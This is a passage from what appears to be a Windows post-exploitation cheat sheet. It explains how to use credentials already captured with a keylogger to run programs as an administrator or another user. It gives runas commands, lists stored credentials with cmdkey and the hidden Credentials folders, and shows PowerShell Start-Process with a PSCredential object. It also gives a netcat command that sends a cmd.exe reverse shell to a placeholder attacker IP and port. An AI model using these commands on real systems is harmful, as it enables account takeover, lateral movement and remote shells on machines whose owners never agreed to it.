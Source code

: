 ```
```

Now let's say you have activated a keylogger to monitor the user's keyboard activities and you have got the credentials. Now you want to use credentials as an Administrator or a different user account and it might ask you a password prompt to do so since it was configured without the autologin that was modified in the registry editor.

`C:\> cmd /c <password> | runas /profile /user:<DOMAIN_NAME>\<username> cmd.exe`

- Using `/netonly` flag via `runas.exe` is only for lateral movement.

##### 2.1.1.2 - Powershell

```
PS C:\> cmdkey /list

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

- Another method is using powershell to supply with the defined variables and execute with a powershell cmdlet `Start-Process`.

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath <path_to_shell> -NoNewWindow -Credential $credential -WorkingDirectory C:\Users\Public
```

- If you have `netcat` or other malware you want to execute that might contain arguments.

```powershell
PS C:\> Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("<attacker_IP>","<attacker_PORT>","-e","cmd.exe") -WorkingDirectory C:\Users\Public
$password = ConvertTo-SecureString "<password>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("<username>", $password)
$computer = "<IP>"
[System.Diagnostics.Process]::Start("<Commands>", $creds.Username, $creds.Password, $computer)
```

- Syntax using the `Start-Process`:

```
PS C:\> Start-Process <commands> -ArgumentList (<arg1>,<arg2, ...) -verb RunAs

PS C:\> start-process cmd -argumentlist ("/c", "echo", "yes") -verb runas
```

- Using the `-NoNewWindow` flag that some programs may open it with a window pop up.

`PS C:\> start-process cmd -NoNewWindow -argumentlist ("/c", "echo", "yes") -verb runas`

- Or you can remotely authenticate a network shared workstation to interact even further when you need to
